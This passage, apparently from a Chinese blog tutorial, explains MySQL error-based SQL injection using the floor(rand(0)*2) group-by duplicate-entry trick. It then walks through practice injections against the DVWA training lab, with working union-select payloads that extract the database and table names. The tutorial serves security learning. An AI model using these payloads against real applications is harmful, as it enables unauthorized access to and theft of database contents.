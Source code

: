 - count（*）函数  
    count（*）函数作用为统计结果的记录数。  
    ![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430013417572-1110471802.png)
    
     这就是对重复的数据进行整合计数，x就是每个name的数量，我这里每个只有一个当然count（*）都为1了。
    
- ******综合使用产生报错  
    select count(*),floor(rand(0)*2) x from czs group by x;  
    当count（*）和group by x同时执行时，就会爆出duplicate entry错误。  
    ******
    
     ![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430013942466-1964589845.png)
    
     根据前面的函数，这句话是统计后面的floor（rand（0）*2）from czs产生的随机数种类并计算数量，0110，应该是两个两个，但是最后却报错了。  
      
    **报错原因解析 **
    
    >通过 floor 报错的方法来爆数据的本质是 group by 语句的报错。group by 语句报错的原因
    >是 floor(random(0)*2)的不确定性，即可能为 0 也可能为 1
    >group by key 执行时循环读取数据的每一行，将结果保存于临时表中。读取每一行的 key 时，
    >如果 key 存在于临时表中，则更新临时表中的数据（更新数据时，不再计算 rand 值）；如果
    >该 key 不存在于临时表中，则在临时表中插入 key 所在行的数据。（插入数据时，会再计算rand 值）
    >如果此时临时表只有 key 为 1 的行不存在 key 为 0 的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时 floor(random(0)*2)结果可能为 1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值    实际测试中发现，出现报错，至少要求数据记录为 3 行，记录数超过 3 行一定会报错，2 行时是不报错的。
    

## 三、实战注入（基于dvwa平台）

①判断是否存在报错注入  
id=1' union select count(*),floor(rand(0)*2) x from information_schema.schemata group by x#  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015303474-438854402.png)

 可以看出存在报错注入  
②爆出当前数据库名

id=1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #  
dvwa前的1 是哪个随机数，不要大惊小怪哦~  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015425029-1331896801.png)

  
③爆出表

id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015652740-564601583.png)

  
id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(table_name) from information_schema.tables where table_schema='dvwa' limit 1,1)) x from information_schema.schemata group by x#  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015713572-489769446.png)

  
④爆出字段名
